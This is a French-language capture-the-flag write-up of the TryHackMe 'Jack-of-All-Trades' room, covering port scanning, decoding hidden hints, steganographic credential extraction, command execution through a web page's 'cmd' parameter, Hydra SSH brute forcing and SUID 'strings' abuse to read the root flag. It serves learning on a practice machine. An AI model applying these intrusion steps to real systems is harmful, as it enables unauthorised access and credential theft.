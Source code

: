 ```yaml
---
layout: post
title: Write-up - Jack-Of-All-Trade
date: 2020-07-06 20:30:30 -0200
categories: writeup tryhackme
---
```


# Jack-Of-All-Trades
Cette room est sur tryhackme.com. Elle est dans la catégorie "Easy".

Synopsis de la room : 
> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

## Reconnaisance
D'abord, je scan les ports avec nmap :
`nmap -sV -sC <ip> -oN ports.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 15:58 CEST
Nmap scan report for 10.10.35.82
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.67 seconds
```

On remarque que le serveur Apache est sur le port 22, et SSH sur le 80 !

Un fois sur la page du site, je regarde le code source, et je vois les commentaires suivants :
```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```
C'est du base64. une fois décodée, elle donne :
> Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [edited]

Nous avons donc une nouvelle page, `/recovery.php`, ainsi qu'un password.

`/recovery.php` contient un formulaire de connexion. Dans le code source de la page, il y a la string suivante :
```html
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```
Ce n'est pas du base64. Avec un peu de tatonnage, je trouve : base32 -> hex -> ROT13.

> Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

Le lien pointe vers la page Wikipédia du stégosaure.

On dirait qu'il va falloir faire de la stégano :)

Sur la homepage, il y a une photo d'un stégosaure. Je la télécharge et l'examine avec `steghide` :
```
$ steghide info stego.jpg 
"stego.jpg":
  format: jpeg
  capacité: 1,9 KB
```
Il y a donc bien des choses àl'intérieur !
J'extrait le contenu grâce au mot de passe trouvé précédemement :
```
$ steghide extract -sf stego.jpg
Entrez la passphrase: 
Écriture des données extraites dans "creds.txt".
```
et regarde le contenu du fichier creds.txt :
```
$ cat creds.txt
Hehe. Gotcha!

You're on the right path, but wrong image!
```
:'(

Je télécharge donc la seconde image, jackinthebox.jpg, et répète le processus. Cependant, la passphrase utilisée précédement n'est pas la bonne. Bizarre...
J'essaie quelques passwords un peu au hasard, mais rien ne semble fonctionner.

Je décide d'aller voir un peu ailleurs sur le site, et vais donc sur `/assets/`. Surprise, il y a 3 photos sur la homepage, j'avais oublié la bannière ! Bien évidement, elle contient du texte qui peut être extrait avec le pass vu précédement.
```
$ steghide extract -sf header.jpg 
Entrez la passphrase: 
Écriture des données extraites dans "cms.creds".
```
J'inspecte le contenu, il y a bien des creds !
```
$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: [edited]
Password: [edited]
```
Une fois ces identifiants rentrés sur la page `/recovery.php`, j'accède à une nouvelle page, avec pour seul message :
```
GET me a 'cmd' and I'll run it for you Future-Jack. 
```
Rien de plus dans le code source. Le message est plutôt clair : il faut effectuer des requêtes GET sur la page avec des commandes en paramètre.
Je rentre donc en URL `http://10.10.35.82:22/[edited]?cmd=whoami` afin de tester. J'ai bien la réponse à la commande : `www-data`.

Du RCE ! :D

## Exploitation

Tout d'abord, j'essaie de voir si je peux regarder le contenu de `/home`:

`http://10.10.35.82:22/[edited]?cmd=ls%20/home`

J'y trouve un fichier : `jacks_password_list` ainsi que le dossier de l'user jack.
Je récupère le fichier en envoyant `cat /home/jacks_password_list` :

```
*hclqAzj+2GC+=0K eN@ 0HguX{,fgXPE;8yF sjRUb4*@pz<*ZITu [8V7o^gl(Gjt5[WB yTq0jI$d}Kae)vC4} 9;}#q*,A4wd{6r,y4krSo ow5APF>6r,y4krSo
```
Puisque ce fichier est sensé être une liste, j'imagine que chaque espace représente un retour à la ligne. Ca donnerait donc :
```
*hclqAzj+2GC+=0K
eN@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Kae)vC4}
9;}#q*,A4wd{6r,y4krSo
ow5APF>6r,y4krSo
```
Ce format ne me dit absolument rien.

Je me dis qu'un de ces mots de passe est celui du SSH de Jack. J'essaie donc de bruteforce le port avec Hydra et les passwords mis dans un .txt
```
$ hydra -l jack -P passlist.txt 10.10.35.82 ssh -s 80
...
[DATA] attacking ssh://10.10.35.82:80/
1 of 1 target completed, 0 valid passwords found
```
Rien ...
Petit coup d'oeil au code source de la page, en je remarque qu'il n'y a qu'une petite partie de la liste qui est affichée ! La liste de mots de passe est en réalité beaucoup plus longue.

J'édite donc ma liste et retente avec Hydra.
```
[DATA] attacking ssh://10.10.35.82:80/
[80][ssh] host: 10.10.35.82   login: jack   password: [edited]
1 of 1 target successfully completed, 1 valid password found
```
Cette fois c'est la bonne ! Me voilà connecté en SSH sur la machine.

Dans le folder de jack, il n'y a qu'une photo : `user.jpg`.

Je la récupère sur ma machine: `scp -P 80 jack@10.10.35.82:user.jpg` et l'ouvre : `eog user.jpg`.

Bingo, elle contient le premier flag !

## Élévation de privilèges

Le but maintenant est de passer root.
J'essaie de voir ce que je peux lancer en tant que superuser:
```
$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
```
Tant pis pour sudo... Je regarde ensuite si des fichiers ont le bit SUID de réglé :
```
$ find / -perm /4000 2> /dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```
`/usr/bin/strings` ! Parfait ! Je vais pouvoir lire le flag :)

On sait que le flag root est à `/root/root.txt`. Il faut donc faire :
```
$ LFILE=/root/root.txt
$ /usr/bin/strings "$LFILE"
```
et voilà le résultat :
```
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: [edited]
```

C'est dans la poche 8-)
